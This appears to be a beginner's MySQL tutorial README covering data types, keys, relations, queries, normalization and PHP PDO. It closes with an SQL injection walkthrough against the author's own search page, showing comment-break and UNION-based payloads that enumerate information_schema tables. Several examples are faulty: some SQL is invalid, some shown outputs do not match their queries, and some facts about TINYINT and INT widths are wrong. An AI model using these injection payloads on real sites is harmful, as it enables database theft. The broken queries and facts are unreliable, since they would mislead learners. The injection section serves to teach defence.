# MYSQL  ( Relational Database Management System )

<br><br>

### Intro
* > Mysql is a relational database management system that stores data in terms of tables and columns and set their relations with each other. what make it favouritable is that its **open source, very fast, reliable, scalable and easy to use**. its also frequently used with php language and supported on almost every shared hosting companies.

### References:
1. [Storage Engines](#1-storage-engines)
2. [Data Types](#2-data-types)
3. [Foreign Key](#3-foreign-key) 
4. [Relations](#4-relations) 
5. [Queries](#5-queries) 
6. [Database Design](#6-database-design) 
7. [Usage with PHP](#7-usage-with-php)
8. [SQL Injection](#8-sql-injection)

<br>

### 1. Storage Engines

> is what mysql uses to store, handle and retreive data and there are many supported .. you can see the supported one from "SHOW ENGINES" query

we can specifiy engine for every table to have different engine

```SQL
    CREATE TABLE users (column_name VARCHAR(200)) ENGINE=MyISAM;
    CREATE TABLE posts (column_name VARCHAR(200)) ENGINE=INNODB;
```

#### Some Different engines:
* #####  MYISAM : 
it supports full text searches index(take a phrase and match it with a column) ,Table level blocking which means it block table from any another query while inserting and updating, its great for site with low insert/update rate and a very high select rate 

>Full Text searching can be enabled in InnoDB
```SQL
/* for large DB, full text search is tons faster */

/* this will add fullText feature in title column */
ALTER TABLE items ADD FULLTEXT(title);

/* checking for entries haveing 'watch' but don't have 'smart' in same time */
SELECT title FROM items WHERE match(title) Against ("+watch -smart" IN BOOLEAN MODE);
 
```

* ##### InnoDB :
  
    * its the default one now, and it has many features over myisam.
    * it uses row-level blocking.
    * it allows parallel insert/update/delete queries to work in parallel on table
    * it has foreign key functionality which is advantage
  

      <br>

      * Activity.winner is pointing to Student_ID,
      * Every entry in activity.winner should exist in Student_ID otherwise it won't allow this entry
      * Student_ID and Activity.winner should have the same DataType 
      * If we removed S1 then the record in activity which point to S1 will be removed also automatically 


### 2. Data Types

* ####  Numerical :
  * INT: Normal Sized Integer width up to 11 digits
  * INT(3): allocate memory for 3 bytes but inserting value which is bigger,SQL will try to get more memory from the system.
  * TinyInt:very small int -127 to 127
  * SmallInt:-32k to 32k
  * MediumInt:-8M to 8M
  * BigInt:up to 20 digits
  * Float .. estimated percetion with large number 1.5e5
  * Double..estimated percition with digits such 1.56214 (best practice for digits)
  * Decimal(5,2)..number is 5 length with 2 numbers after digit...used with math operation for perfect percetion.<br><br>


        TINYINT unsigned 0 -> 255 while TINYINT signed -127 -> 127  
         notice (signed is the default) 
         it can be put after any numerical datatype


* #### String:
  * CHAR: is a fixed length string
  * VARCHAR(length):Variable length of string with specific length
  * TEXT is good:
    * If you need to store large texts in your database
    * If you do not search on the value of the column
    * If you select this column rarely and do not join on it.
     <br>Some examples of what TEXT is good for: Blog comments , Page Reviews , Content Description

* #### Date and Time:
  * Date: YYYY-MM-DD
  * TimeStamp: YYYY MM DD HH:MM:SS from 1970 to 2038 (best pracice)
  * DateTime: YYYY-MM-DD HH:MM:SS from 1000 to 9999

### 3. Foreign Key
A column is dependent on another one if one value can be used to determine the value of another,in another meaning if one value in column1 changes it will lead to a change in the value in column 2 as long as column1 points to column2 

#### **Foreign Key in pracice**
Adding foreign key to make products.category to point to categories.id

Categories Table

| id  | name     |
| --- | -------- |
| 1   | phones   |
| 2   | laptops  |
| 3   | clothes  |
| 4   | machines |

Products Table

| id  | name           | description | price | category | image | created_date |
| --- | -------------- | ----------- | ----- | -------- | ----- | ------------ |
| 1   | oppo phone     |             | 100$  | 1        |       |              |
|     | toshiba laptop |             | 500$  | 2        |       |              |
|     | watch          |             | 50$   | 4        |       |              |
|     | samsung phone  |             | 150$  | 1        |       |              |

* #### adding index to products.category column
   
    

* #### click on relation view
    
    

* #### make products.category column point to categories.id

    

* #### Restrict:
    means if we want to remove a category from the categories Table, it won't allow removal because there is a product pointing to it

* #### Cascade:
     means if we want to remove a category from the categories Table, it will remove all the products pointing to this category

* #### Null:
  means if we want to remove a category from the categories Table,it will reset the value of product.category which point to parent category with null

* #### No actions:
  means if we want to remove a category from the categories Table,nothing will happen in products table even if there are some pointing to parent category


### 4. Relations:

* #### one to many relation:
    **one parent can have many child** <br><br>
    **for example one category(parent) can have many products(child),its like the implementaion above.**
	**child(is the table that has a column refereing to parent table)
	**posts(is the table that has a column called category_id refereing to category table



* #### one to one relation:
    **one parent can have only one child** <br><br>
    **if for some reason you wanted that one category(parent) should have only one product(child), we can do that in implementation above but with little addition that we should product.category be unique, so that no category should ever be repeated**
	**child(is the table that has a column refereing to parent table)
	**posts(is the table that has a column called category_id refereing to category table


* #### many to many relation:
  **one child can have many parent** <br><br>
**if for some reason you wanted that one product(child) can have many categories(parent), implemetation now is much different, the implementation now is to create another table 'Product_categories' Table . this implementation is universal,in another meaning by playing with unique attribute for columns,we can change the relations from one to one, one to many, many to many**



### 5. Queries:


> For better experience,Do queries yourself in php_my_admin
> you can download [users table](table/users.sql)

<br> 

**Create Database**

```SQL
CREATE DATABASE db; 
```
<br>


**Create Table**

```SQL
/*  * on creating table you must create columns also otherwise it won't allow creating table
    * there should be at least one primary key according to 1NF:in Database design section 
    * try to choose the best fit DataType for your columns
    * make sure that no column depend on another column in the table Revisit 3NF:in Database design section
    *unsigned is put after the datatype not before
    *if you don't want duplications in any column make it UNIQUE
*/

CREATE TABLE users (
id int unsigned auto_increment primary key,
firstname VARCHAR(200),
last_name VARCHAR(200),
age TINYINT
); 
```
<br>

**Updating table Structure**

```SQL
/* adding column */
ALTER TABLE users 
ADD COLUMN email VARCHAR(200) UNIQUE;

/*Changing Column*/
ALTER TABLE users 
CHANGE email e_mail VARCHAR(250);

/* Removing column */
ALTER TABLE users 
DROP email;

```
<hr>

Download  [users table](table/users.sql)

| id  | first_name | last_name | age |
| --- | ---------- | --------- | --- |
| 1   | ahmed      | ibrahim   | 24  |
| 2   | mohamed    | reda      | 20  |
| 3   | alaa       | mohamed   | 20  |
| 4   | john       | michael   | 40  |
| 5   | ahmed      | ali       | 31  |
| 6   | mohamed    | ismail    | 35  |

<br>

**Inserting**

```SQL
INSERT INTO users 
VALUES(7,'mostafa','ramadan',24);


/*you can specifiy the columns to insert to*/
INSERT INTO users (first_name,last_name,age)
VALUES ('ahmed','zaki',25);
```
<br>

**Updating**

```SQL
UPDATE users 
SET first_name='mahmoud', second_name='zaki'
WHERE id = 8;
```

<br>

**Deleting**

```SQL
DELETE FROM users 
WHERE id = 7 OR id = 8 ;
```
<br>

**Selecting**

```SQL
SELECT * FROM users;
```

**Output** 

| id  | first_name | last_name | age |
| --- | ---------- | --------- | --- |
| 1   | ahmed      | ibrahim   | 24  |
| 2   | mohamed    | reda      | 20  |
| 3   | alaa       | mohamed   | 20  |
| 4   | john       | michael   | 40  |
| 5   | ahmed      | ali       | 31  |
| 6   | mohamed    | ismail    | 35  |


```SQL
/*          --- LIMIT  ---
 
LIMIT n
n : how many records should be got

LIMIT n1, n2
n1 : starting index
n2 : number of record/data you want to show
ID
1 -- index of the first record is zero.
2
3
4
5
6

LIMIT 0, 3
-- the result will be ID: 1,2,3
LIMIT 2, 3 
-- the result will be ID: 3,4,5

*/
SELECT age,first_name FROM users 
WHERE age>30
ORDER BY age DESC
LIMIT 2; 
```
**Output**

| age | first_name |
| --- | ---------- |
| 40  | john       |
| 35  | mohamed    |

<hr>

```SQL
/*              ---  LIKE KEYWORD  ---
    WHERE column LIKE 'a%' .. start with a
                     '%a'...end with a
                     '%or%'.....have or in any position
                     '_r%'  .... r in second position
                     'a%o' ... start with a ends with 0
*/

SELECT id,first_name AS name FROM users 
WHERE age>=30 AND last_name LIKE 'm%';
```
**Output**
 
| id  | name |
| --- | ---- |
| 4   | john |

<hr>

```SQL
select u.id , u.first_name,u.age from users u
Where u.age<30
ORDER BY age DESC,first_name ASC;
```
**Output**

| id  | first_name | age |
| --- | ---------- | --- |
| 1   | ahmed      | 24  |
| 2   | alaa       | 20  |
| 3   | mohamed    | 20  |
<hr>

```SQL
/*   --- UNION ---
displaying two results in one column 
UNION don't allow duplicated results
if you want duplications use UNION ALL 
*/

SELECT first_name FROM users
UNION
SELECT last_name FROM users;
```
**Output**

| first_name |
|------------|
| ahmed      |
| mohamed    |
| alaa       |
| john       |
| ibrahim    |
| reda       |
| michael    |
| ali        |
| ismail     |

<hr>

```SQL
/*   --- GROUP_CONCAT()  ---
displaying one signal value having all first_name
 separated from each other by ;
 since we used DISTINCT keyword so no duplication  
*/

SELECT 
GROUP_CONCAT(DISTINCT first_name ORDER BY id) AS first_name
FROM users;
```
**Output** 

| first_name              |
|-------------------------|
| ahmed;mohamed;alaa;john |

<hr>

```SQL
/*     --- GROUP_CONCAT()  ---
 displaying one signal value having all selcted records
 separated from each other by ,  
*/

SELECT GROUP_CONCAT(
CONCAT(first_name, " ", last_name, " #", age)
where age>30
ORDER BY id 
SEPARATOR "," ) AS full_info 
FROM users;

```
**Output** 

| full_info                                           |
|-----------------------------------------------------|
| john michael #40,ahmed ali #31,mohamed ismail #35 |

<hr>
customers table

| id  | name | email      |
| --- | ---- | ---------- |
| 1   | john | john-email |
| 2   | john | john-email |
| 3   | fred | john-email |
| 4   | fred | fred-email |
| 5   | sam  | sam-email  |
| 6   | sam  | sam-email  |

```SQL
/*    --- GROUP BY  ---
   get how many duplications happens by 
   both name and email at same time
   with condition that duplications>1
*/
/* functions after select work on duplications occurrences */
SELECT name,email,COUNT(*) AS count_of
FROM customers
GROUP BY name email
HAVING COUNT(*)>1;
```

**Output**

| name | email      | count_of |
| ---- | ---------- | -------- |
| john | john-email | 2        |
| sam  | sam-email  | 2        |


### 6. Database Design

 **Normalization:**
 is the process of organizing the fields and tables to minimize redudancy and control dependency.

 we can normalize data by three filters (normal forms)

* **1NF:** every column should represents single attribute (don't have multiply value in single column) for example the below table breaks 1NF
  
| user_id | user_name             |
| ------- | --------------------- |
| 1       | ahmed,mohamed,ibrahim |
| 2       | alaa                  |
| 3       | sarah,nadia           |
| 4       | john                  |

<br>
<br>

* **2NF:** all columns inside a table should depend on the pk, if a column is partial depend on one PK but not the other such in in the below table (product_description) (its better place is in product table)
notice:2 PK in one table is called (Composite Key)

users Table , product_table and orders_table 

| user_id | user_name |     |     | product_id | product_name |     |     | id  | user_id | product_id | product_description     |
| ------- | --------- | --- | --- | ---------- | ------------ | --- | --- | --- | ------- | ---------- | ----------------------- |
| 1       | ahmed     |     |     | 1          | watch        |     |     | 1   | 1       | 1          | its samsung smart watch |
| 2       | alaa      |     |     | 2          | perfum       |     |     | 2   | 1       | 2          | exciting perfum         |
| 3       | sarah     |     |     | 3          | book         |     |     | 3   | 3       | 2          | exciting perfum         |
| 4       | john      |     |     | 4          | PC           |     |     | 4   | 4       | 2          | exciting perfum         |

<br>
<br> 

* **3NF:** if column depend on another column in the table, its better to break it to another table and make your references., in the below table category_description depends on category column,so itsn't belong to this table

| product_id | product_name        | category | category_description     |
| ---------- | ------------------- | -------- | ------------------------ |
| 1          | samsung smart watch | watches  | a very effecient watches |
| 2          | dell inspiron 5570  | Laptops  | high performance laptops |
| 3          | Lean Startup        | Books    | inspiring books          |
| 4          | Toshiba L755        | Laptops  | high performance laptops |

the fix is to create another table for category Table and make a foreign key between products.category_id to category.id

| product_id | product_name        | Category_id |     |     | id  | category | category_description     |
| ---------- | ------------------- | ----------- | --- | --- | --- | -------- | ------------------------ |
| 1          | samsung smart watch | 1           |     |     | 1   | watches  | a very effecient watches |
| 2          | dell inspiron 5570  | 2           |     |     | 2   | Laptops  | high performance laptops |
| 3          | Lean Startup        | 3           |     |     | 3   | Books    | inspiring books          |
| 4          | Toshiba L755        | 2           |     |     | 4   | PC       | personal computers       |

* #### Data Integrity:
    is to make sure that database has the right design to store data to remove redundance 
    for example:
    users(table) -> id,name,mail,address (columns) ... (there shouldn't be two same mails in the table) ... so we make sure that mail column is unique

    * **Entity Integrity:** 
    Every row should have a primary key to distinguish rows from each other

    * **Referential inegrity:**
    this in summary is the usage of foreign keys by referencing column in a table with another table.column and do yours constrains (Restricted,Cascade,Null,No Action)

    * **Domain integrity:**
    using right data types for right expected data.


* #### Common Design Mistakes

  * Tables with many field that don't relate to eachother
  * Too many tables with similar data
  * repeated rows (thats why we use primary key)
  * using comma separated value in a column
  * poor naming conventions
  * non-normalized data

* #### Database Design Process:
  * define the purpose of the database, we want create db for website that will
    * sell products which can be categorized
    * create customer accounts
    * allow customers to create reviews for products
    * provide basic content management system for static pages

  * now determine your table names,and column_ids and use name conventions on it
    * product_categories
    * products
    * customers
    * reviews
  
  * normalize the database by finding relations between tables

### 7. Usage with PHP

##### PDO Extension
PDO (PHP data object) is a collection of php classes that communicate with many different SQL database via a single user interface.we can write and execute database queries with a single interface regardless of the particular database system we happen to be usin at the time

>**Lets start a connection**

the PDO constructor accepts a string argument called DNS (data source name) which have information about the type of database and database name and other info also accepts arguments of username and password for the database

```php
<?php
//dns formatted as 'driver:key=value;key=value'
    try{
        $pdo = new PDO(
            'mysql:host=localhost;dbname=books;port=3306;charset=utf8',
            'root',
            'password'
        );
    }catch(PDOException $e){
        echo 'Database Connection Failed';
        exit;
    }
```
>**Prepared Statement**

we have now a connection to database so we can use this connection to read and write to the database with sql statments

A prepared statement is a PDOStatement instance. we get this instance with using prepare method on connection itself

```php
<?php
    $sql = 'SELECT id FROM users WHERE email = :email AND id > :id';
    $statement = $pdo->prepare($sql);

    //filter_input and filter_var are helper functions in sanitizing and validating the variables
    //it has many options such filter_input(INPUT_POST, 'email',FILTER_SANITIZE_EMAIL);
    //filter_input(INPUT_POST, 'email',FILTER_VALIDATE_EMAIL);
    $email = filter_input(INPUT_GET, 'email');

    //binding data to statement, default bounded data is string
    $statement->bindValue(':email', $email);

    //this tells PDO that bounded data is integer
    $statement->bindValue(':id', 1, PDO::PARAM_INT);
```

>**Execute Statement**

we now have a prepared statement, and we are ready to execute sql queries against database. the execute() method on statment execute the sql query with any bounded data. if you are doing INSERT,UPDATE,DELETE invoke execute() and you are done, however if you need to get records from database you are going to use fetch(), fetchALL(), fetchColumn(), fetchObject() methods.

```php
<?php
    /** 
    /* SOME Ways of Fetching records from database
    /* PDO::FETCH_ASSOC .. return associative array
    /* PDO::FETCH_NUM   .. return a numeric array
    /* PDO::FETCH_BOTH  .. return associative and numeric array
    /* PDO::FETCH_OBJ   .. reutrn an object whose properities are columns names .. Bad for memory
    **/

    $statement->execute();

    //fetch method will give the next row from result set so its helpful in iterations
    while(($result = $statement->fetch(PDO::FETCH_ASSOC))!==false){
        echo $result['id'];
    }

    //fetchAll will get all matches and set them in memory then iterate over them.
    $results = $statement->fetchAll(PDO::FETCH_ASSOC);
    foreach($results as $result){
        echo $result['id'];
    }
```
>**Transactions**

PDO extension also support extenstions. A transaction is a collection of sql queries that are either all executed successfully or not executed at all. Transactions encourage data consistency, safety and improve in performance.

look at the following scenario,what if the query of withdrawing money is done successfully but on trying to deposit the money. an error happened any type of error .it may be server error, web application has gone down or script caused error. there is a big problem here as we can't track down this failed operation easily so a better approach is to link these both queries either executing together or failing together.

```php
<?php
    /**
    /* so withdraw from ahmed account done successfully
    /* What if error happened executing the deposition to john account
    */
    $subtract_statement = $pdo->prepare('
        update accounts
        SET amount = amount - :amount
        WHERE name=:name
    ');

    $add_statement = $pdo->prepare('
        UPDATE accounts 
        SET amount = amount + :amount 
        WHERE name = :name
    ');

    //withdraw money from account 1
    $subtract_statement->bindValue(':name',"ahmed");
    $subtract_statement->bindValue(':amount',1000,PDO::PARAM_INT);
    $subtract_statement->execute();

    //deposit money into account 2
    $add_statement->bindValue(':name', "John");
    $add_statement->bindValue(':amount', 1000, PDO::PARAM_INT);
    $add_statement->execute();
```
**Solution** 

```php
<?php
    /**
    /* Solution is to wrap the two queries executions around a transaction
    */
    $subtract_statement = $pdo->prepare('
        update accounts
        SET amount = amount - :amount
        WHERE name=:name
    ');

    $add_statement = $pdo->prepare('
        UPDATE accounts 
        SET amount = amount + :amount 
        WHERE name = :name
    ');
    
    $pdo->beginTransaction();

    //withdraw money from account 1
    $subtract_statement->bindValue(':name',"ahmed");
    $subtract_statement->bindValue(':amount',1000,PDO::PARAM_INT);
    $subtract_statement->execute();

    //deposit money into account 2
    $add_statement->bindValue(':name', "John");
    $add_statement->bindValue(':amount', 1000, PDO::PARAM_INT);
    $add_statement->execute();

    $pdo->commit();
```

### 8. SQL Injection

        sql injection is what attackers can use to get into your database 
        and read all the sensitive data inside and cause catastrophic data breach

> so lets see what mistakes developers do and how attacker can use this mistake

<hr>

**this is simple website created myself to search for products**




```php
/* attacker will think what query developer used to create this feautre */
SELECT ? FROM ? WHERE ? like = '%$search_input%';


/* attacker says fair enough now lets test for sql injection 
so that our input would be "'-- " 
*/
 Lets make the query to be such
SELECT ? FROM ? WHERE ? like = '%'--    %';

/*
-- is mysql commenting what comes after it
so we altered the query and MYSQL server read it such
SELECT ? FROM ? WHERE ? like = '%'
*/
```



```php
/* wow it got all the records inside product_name,
apparently this site is vulnerable to sql injection
attacker now says okay lets try to play a little and see queries get executed 
input be "' UNION (SELECT 1 FROM dual)--   "

dual is a table in mysql itself that display whatever you are trying 
to display and its for test purpose
SELECT "lorem ipsum" FROM dual .... will display lorem ipsum
*/

SELECT ? FROM ? WHERE ? like = '%' UNION (SELECT 1 FROM dual)--   %';
```




    attacker now says okay lets get db names and db tables 
    but first let me introduct you to information_schema 
    its a database mysql has in default and mysql uses it to track
    all changes happens in mysql you can say it it the core of mysql

    what concern us is two tables inside it 
    information_schema.tables ... it is a record of db and associated tables
    information_schema.columns... it is a record of db and associated tables and columns
 

    i executed query "SELECT * FROM information_schema.tables" on my phpMyAdmin to get insights about information_schema.tables
    you can see here that i have db name called blog which have tables categories,	
    migrations,password_resets,posts,users



    i executed query "SELECT * FROM information_schema.columns" on my phpMyAdmin also
    its a bit messy but it have the columns names and associated table name and associated db




> sorry for interrupting let's continue

```php
/* 
getting all tables inside databases and search for what we need which would be for example users
*/

SELECT ? FROM ? WHERE ? like = '%' UNION (SELECT table_name FROM information_schema.tables)--   %';
```


